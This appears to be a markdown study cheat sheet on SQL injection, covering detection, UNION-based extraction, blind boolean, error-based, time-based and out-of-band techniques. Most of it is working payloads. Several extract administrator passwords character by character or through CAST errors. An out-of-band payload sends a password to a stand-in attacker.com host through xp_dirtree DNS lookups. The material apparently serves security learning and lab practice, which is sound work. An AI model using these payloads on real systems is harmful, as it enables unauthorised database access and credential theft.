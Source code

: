 # SQL injection

## SQL Injection Cheatsheet

* [https://tib3rius.com/sqli](https://tib3rius.com/sqli)
* [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Overview

**How to detect SQL injection vulnerabilities**

* The single quote character `'` and look for errors or other anomalies.
* Boolean conditions such as `OR 1=1` and `OR 1=2`, and look for differences in the responses.
* Trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
* OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.

**SQL injection in different parts of the query**

* Most SQL injection vulnerabilities occur within the `WHERE` clause of a `SELECT` query.
* However, SQL injection vulnerabilities can occur at any location (UPDATE, INSERT, SELECT \[column, table], ORDER BY)

**Warning: OR 1=1**

* If your condition reaches an UPDATE or DELETE statement, for example, it can result in an accidental loss of data.

**Database-specific syntax**

* Example:
  * Oracle: every `SELECT` query must use the `FROM` keyword and specify a valid table
  * MySQL: the double-dash sequence must be followed by a space

## SQL injection UNION attacks

* Requirements
  * How many columns are being returned from the original query
  * Which columns returned from the original query are of a suitable data type to hold the results from the injected query

### Determining the number of columns required

* First way: Injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs. Example (the injection point is a quoted string within the `WHERE` clause)
  * ```
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    etc.
    ```
* Second way: submitting a series of `UNION SELECT` payloads specifying a different number of null values. NULL is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct.
  * ```
    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ' UNION SELECT NULL,NULL,NULL--
    etc.
    ```
* Note: the application might actually return the database error in its HTTP response, but may return a generic error or simply return no results

### Finding columns with a useful data type

* Do you want a string?
  * ```
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ' UNION SELECT NULL,NULL,'a',NULL--
    ' UNION SELECT NULL,NULL,NULL,'a'--
    ```
  * If no error occurs and the response includes the injected string, the column is suitable for retrieving string data.

### Examining the database

* `' UNION SELECT @@version--`
* Most database types (except Oracle) have a set of views called the information schema

```markdown
# MySQL
# information_schema.tables
TABLE_CATALOG    TABLE_SCHEMA    TABLE_NAME    TABLE_TYPE
MyDatabase       dbo             Products      BASE TABLE

# information_schema.columns
TABLE_CATALOG    TABLE_SCHEMA    TABLE_NAME    COLUMN_NAME    DATA_TYPE
MyDatabase       dbo             Users          UserId        id

# Find tables names
SELECT * FROM information_schema.tables
# Find columns names
SELECT * FROM information_schema.columns WHERE table_name = 'Users'SELECT * FROM information_schema.tables


# Oracle
SELECT * FROM all_tables
SELECT TABLE_NAME FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
SELECT COLUMN_NAME FROM all_tab_columns WHERE table_name = 'USERS'
```

### Retrieving multiple values within a single column

* You can retrieve multiple values together within this single column by concatenating the values together
* `' UNION SELECT username || '~' || password FROM users--`

## Blind SQL Injection

* Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

### Triggering conditional responses

* `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`
  * …xyz' AND '1'='1
    * The query return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed.
  * …xyz' AND '1'='2
    * The query do not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
* Extract data one piece at a time
  * `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
    * This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`
  * `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`
    * This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.
  * `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`
    * ... Confirm that the first character of the password is `s`
  * We can continue this process to systematically determine the full password for the Administrator user.

### Error-based SQL injection

* Problem: Some applications carry out SQL queries but their behavior doesn't change, regardless of whether the query returns any data. The technique "Triggering conditional responses" won't work, because injecting different boolean conditions makes no difference to the application's responses.
* It's often possible to induce the application to return a different response depending on whether a SQL error occurs and extract or infer sensitive data from the database, even in blind contexts.
* `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a`
  * The CASE expression evaluates to 'a', which does not cause any error.
* `xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`
  * It evaluates to 1/0, which causes a divide-by-zero error.
* You can use this to determine whether the injected condition is true.
* `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`
* Note: There are different ways of triggering conditional errors, and different techniques work best on different database types. See SQL cheat sheet

<details>

<summary>Example</summary>

<pre class="language-markdown"><code class="lang-markdown"># In this example the response are always the same. 
<strong># However, if you submit an invalid query you will get an error.
</strong><strong>
</strong><strong># 1 - Check if it's vulnerable
</strong>## Normal request. 200 OK
Cookie: TrackingId=xyz
## Cause error. 500 Internal Server Error
Cookie: TrackingId=xyz'


# 2 - Identify database [tiberius cheatsheet]. NOTE: add comment...
## (MySql). 500 Internal Server Error
Cookie: TrackingId=xyz' AND 'foo' 'bar' = 'foobar'#
## (ORACLE). 200 OK
Cookie: TrackingId=a' AND LENGTHB('foo') = '3'--


# 3 - Test boolean error. 
## Error condition: 500 OK
Cookie: TrackingId=xyz'	AND 1=(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '1' END FROM dual)--
## No error condition: 200 OK
Cookie: TrackingId=xyz'	AND 1=(SELECT CASE WHEN (2=1) THEN TO_CHAR(1/0) ELSE '1' END FROM dual)--


# 4 - Extract data
## Error condition: 500 OK (it means that first char is 'a')
Cookie: TrackingId=xyz'	AND 1=(SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'a') THEN TO_CHAR(1/0) ELSE '1' END FROM dual)--
## No error condition: 200 OK
Cookie: TrackingId=xyz'	AND 1=(SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'b') THEN TO_CHAR(1/0) ELSE '1' END FROM dual)--
</code></pre>

</details>

**Extracting sensitive data via verbose SQL error messages**

* Example: inject `'` and you get an error: `Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char`
* You can use the `CAST()` function to turns an otherwise blind SQL injection vulnerability into a visible one
* `TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

### Time-based SQL injection

* Condition: As SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response.
* Triggering time delays depending on whether an injected condition is true or false

```
'; IF (1=2) WAITFOR DELAY '0:0:10'--    
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

* The first does not trigger a delay (false), the second does (true)
* We can retrieve data by testing one character at a time
* `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`\


### Out-Of-Band (OAST) SQL injection

An application might carry out a SQL query asynchronously (another thread execute the SQL query)

```markdown
# Triggering a DNS query
'; exec master..xp_dirtree '//attacker.com/a'--
' UNION SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')

# Exfiltrate data
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.attacker.com/a"')--
```
